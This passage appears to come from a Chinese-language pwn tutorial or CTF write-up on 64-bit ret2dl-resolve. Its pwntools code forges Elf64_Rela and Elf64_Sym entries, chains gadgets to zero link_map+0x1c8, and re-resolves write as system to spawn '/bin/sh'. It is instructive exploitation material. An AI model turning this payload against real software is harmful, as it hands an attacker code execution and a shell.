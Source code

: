 ```
fake_Elf64_Rela_data += p64(fake_r_info)
fake_Elf64_Rela_data += p64(0)
 
fake_Elf64_Sym_data = ""
fake_Elf64_Sym_data += p32(fake_st_name)
fake_Elf64_Sym_data += p8(0x12)
#后面的数据直接套用write函数的Elf64_Sym结构体，这里要注意数据大小
fake_Elf64_Sym_data += p8(0)
fake_Elf64_Sym_data += p16(0)
fake_Elf64_Sym_data += p64(0)
fake_Elf64_Sym_data += p64(0)

```

(5) 将 link_map+0x1c8 置 0 之后，直接再次重定位 write 函数，劫持为 system 函数，getshell:

```
#注释头
 
#使用万能gadgets调用read把link_map+0x1c8置为0
payload = ""
payload += "AAAAAAAA"
payload += p64(universal_gadget1)
payload += p64(0x0)
payload += p64(0x1) #rbp设置为1
payload += p64(read_got)
payload += p64(0x8)
payload += p64(link_map_addr + 0x1c8)
payload += p64(0x0)
payload += p64(universal_gadget2)
payload += 'A'*0x38 #栈修正
 
#为system函数设置参数"/bin/sh\x00"，由于plt[0]函数调用重定位取参仍然是从栈上取，不会用到rdi寄存器传参，所以这里直接先传参也可。
payload += p64(pop_rdi_ret) 
payload += p64(binsh_addr)
 
payload += p64(plt0_addr)
payload += p64(fake_reloc_arg)
payload = payload.ljust(0x150, "A") #padding
 
payload += 'A'*rel_plt_align
payload += fake_Elf64_Rela_data
payload = payload.ljust(0x190, "A") #padding
 
payload += 'A'*rel_sym_align
payload += fake_Elf64_Sym_data
payload = payload.ljust(0x1c0, "A") #padding
payload += "system\x00\x00"
payload += "/bin/sh\x00"
 
io.send(payload) #写入该段payload,将数据读取到新栈
io.send(p64(0)) #执行新栈上的相关代码，设置link_map+0x1c8为0。
 
io.interactive()

```
